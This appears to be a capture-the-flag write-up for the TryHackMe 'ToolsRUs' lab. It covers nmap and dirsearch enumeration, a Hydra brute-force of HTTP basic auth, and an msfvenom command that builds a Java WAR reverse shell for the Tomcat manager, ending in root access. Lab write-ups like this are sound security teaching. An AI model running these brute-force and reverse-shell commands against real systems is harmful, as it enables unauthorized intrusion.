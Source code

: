 
[TryHackMe Link](https://tryhackme.com/room/toolsrus){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

In this section, I will discuss about gaining access to a system by exploiting vulnerabilities in various services. The services include Apache Tomcat, Apache Coyote JSP Engine, Apache Jserv, and an HTTP server on port 80.

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |
| <p id="p3" style="font-size:14px;  color: purple"></p>     | <p id="s3" style="font-size:14px; color: purple"></p>  |<p id="d3" style="font-size:14px; color: purple"></p> |
| <p id="p4" style="font-size:14px;  color: purple"></p>     | <p id="s4" style="font-size:14px; color: purple"></p>  |<p id="d4" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 11 14 18"
    # Nmap 7.93 scan initiated Wed Feb 22 10:11:28 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.4.144
    Nmap scan report for 10.10.4.144
    Host is up (0.15s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 460e76fbb6a2f7f78536656f8809f7e8 (RSA)
    |   256 a1bc5d3478f4e8d4091805ef9d9072c5 (ECDSA)
    |_  256 0757145539dfc56296f9fc4883cf127e (ED25519)
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/7.0.88
    |_http-server-header: Apache-Coyote/1.1
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=2/22%OT=22%CT=1%CU=33697%PV=Y%DS=5%DC=I%G=Y%TM=63F630B
    OS:F%P=aarch64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS
    OS:=8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M
    OS:505ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68
    OS:DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
    OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
    OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
    OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
    OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
    OS:=40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Feb 22 10:11:59 2023 -- 1 IP address (1 host up) scanned in 30.78 seconds

  ```

## <b>Enumerating Apache Coyote JSP Engine</b>

At first, my plan was to exploit the Apache JSP Engine by uploading a malicious WAR file to obtain a shell. Since I was familiar with this method, I felt confident. However, I was unable to pass the authorization process.

In my attempts to gain access to the Tomcat Manager, I initially turned to a Python script to brute force default logins for Apache Tomcat. Unfortunately, this approach also failed. 

## <b>Enumerating the HTTP Server</b>

I then shifted my focus to the HTTP server running on port 80, where I discovered a simple page that hinted at the development of the site. 

<img id="image1" />

Utilizing a dirsearch Python script, I was able to locate potentially hidden pages and directories that could provide further clues and entry points.

```s linenums="1" hl_lines="21-23"
    Target: http://10.10.4.144/

    [10:13:58] Starting: 
    [10:14:03] 403 -  297B  - /.ht_wsr.txt                                     
    [10:14:03] 403 -  300B  - /.htaccess.bak1
    [10:14:03] 403 -  302B  - /.htaccess.sample
    [10:14:03] 403 -  300B  - /.htaccess.orig
    [10:14:03] 403 -  300B  - /.htaccess.save
    [10:14:03] 403 -  301B  - /.htaccess_extra
    [10:14:03] 403 -  300B  - /.htaccess_orig
    [10:14:03] 403 -  298B  - /.htaccess_sc
    [10:14:03] 403 -  298B  - /.htaccessBAK
    [10:14:03] 403 -  298B  - /.htaccessOLD
    [10:14:03] 403 -  290B  - /.htm
    [10:14:03] 403 -  299B  - /.htaccessOLD2                                   
    [10:14:03] 403 -  291B  - /.html
    [10:14:03] 403 -  300B  - /.htpasswd_test
    [10:14:03] 403 -  296B  - /.htpasswds
    [10:14:03] 403 -  297B  - /.httr-oauth
    [10:14:36] 200 -  168B  - /index.html                                       
    [10:14:47] 401 -  458B  - /protected/data/                                  
    [10:14:47] 401 -  458B  - /protected/runtime/
    [10:14:47] 301 -  298B -  /guidelines
    [10:14:49] 403 -  299B  - /server-status                                    
    [10:14:49] 403 -  300B  - /server-status/
```

## <b>Exploiting '/guidelines' page</b>

After running the dirsearch script, I was able to identify two promising directories that could lead to further leads, namely `protected` and `guidelines`. The former sounded highly secured, but to my surprise, it was not. While I was filling out the question, I decided to check out the `/guidelines` page, and found a username called `bob`.

<img id="image2" />

Leveraging this discovery, I was able to brute force Bob's password using Hydra, which gave me access to the `protected` directory. It was a simple HTTP Basic Authorization Request which can be brute forced with the following command:

!!! tip "Hydra Command"
    <p id="desc" style="font-size:15px">hydra $IP -l bob -P ~/rockyou.txt http-get /protected -V</p>
    


<img id="image3" />

I successfully obtained Bob's login credentials, and used them to access the page that I had discovered earlier.

## <b>Exploiting Apache Tomcat with Harvested Credentials</b>

When I logged in, I discovered that the Authorization mechanism used for the Tomcat Service and the `/protected` directory were the same. 

<img id="image4" />

This allowed me to reuse the credentials that I had previously harvested. With access granted, I uploaded a Java WAR file to the manager and made a reverse shell from it.

!!! Bug "Msfvenom Payload"
    <span>msfvenom -p java/shell_reverse_tcp lhost=10.17.3.217 lport=5432 -f war -o shell.war</span>

<img id="image5" />

Also, I made a listener, before I accessed {++http://10.10.4.144:1234/shell/++} giving me the shell.


## <b>Gaining root access</b>

Surprisingly, I was granted `root` access, rather than the expected `www-data` shell. Easy-Peasy

```s
root@ip-10-10-4-144:/# cat root/*
cat root/*
[REDACTED]
cat: root/snap: Is a directory
```

!!! success ""
    <span>Peace-out!</span>

<script>

// JSON object
const data = {
    "desc": "Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit",
    "ip":  "10.10.4.144",
    "ports": "22/tcp,ssh,OpenSSH 7.2p2 Ubuntu;80/tcp,http,Apache httpd 2.4.18;1234/tcp,http,Apache Tomcat/Coyote JSP engine 1.1;8009/tcp,ajp13,Apache Jserv (Protocol v1.3)",
    "difficulty":"easy",
    "id": "3"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>